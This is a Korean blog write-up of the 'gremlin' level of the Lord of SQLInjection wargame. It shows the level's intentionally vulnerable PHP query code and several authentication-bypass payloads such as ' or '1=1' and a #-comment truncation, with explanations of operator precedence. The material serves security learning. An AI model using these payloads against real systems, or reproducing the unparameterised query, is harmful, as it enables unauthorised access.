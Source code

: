 ```yaml
---
layout: post

title: Lord of SQLInjection 1일차

description: >
  Lord of SQLInjection Day1

tags:
 - [LOS, SQL, Injection]

toc: true
toc_sticky: true

date: 2023-01-27

sitemap: false

---
```

---
## LORD OF SQLINJECTION
### gremlin
- 문제
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
<details markdown="1">
<summary>풀이</summary>

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
# db에서 select한 id를 $query에 저장한다.
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
# mysqli_query($db, $query): db에서 query로 가져온 데이터.
# $result = mysqli_fetch_array(): $result에 array로 저장한다.
# if $result['id'] solve("gremlin"): id가 result에 있으면 solve.
```
> 입력된 id가 db에 있으면 gremlin이 해결된다. admin 등의 id로 시도해볼 수 있겠지만, 여기에선 논리식으로 풀이한다.

- 답안  
id= '' and pw= '' 값이 TRUE가 나오면 되는 문제다.
1. id= '' or '1=1' & pw= '' or '1=1'  
가장 단순하게 TRUE and TRUE를 만들었다. 
2. id= '' or '1=1' or '#' #and pw=#
id를 TRUE로 만들어주고 and 뒤를 주석처리하여 TRUE를 만들었다.
3. **id= '' or '1=1' or '1=1' 
and 연산이 선순위를 가지는 점을 이용하였다.   
TRUE or TRUE and FALSE로 구성했다. 최종 TRUE.**
4. pw='1' or '1=1'  
3.과 같다. FALSE and FALSE or TRUE로 구성했다. 최종 TRUE.
</details>

## +Note
### PHP
- url에서 특수문자는 무시된다. #의 url인코딩 %23   
[GET](https://stonefree.tistory.com/616)
- GET 방식은 데이터를 URL에 붙여 데이터를 전송하는 방식.  
[preg_match](https://ponyozzang.tistory.com/176)
- 첫 번째 인수: 정규식 표현 작성.
- 두 번째 인수: 검색 대상 문자열.  
[PHP MySQL](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=diceworld&logNo=220292127761)
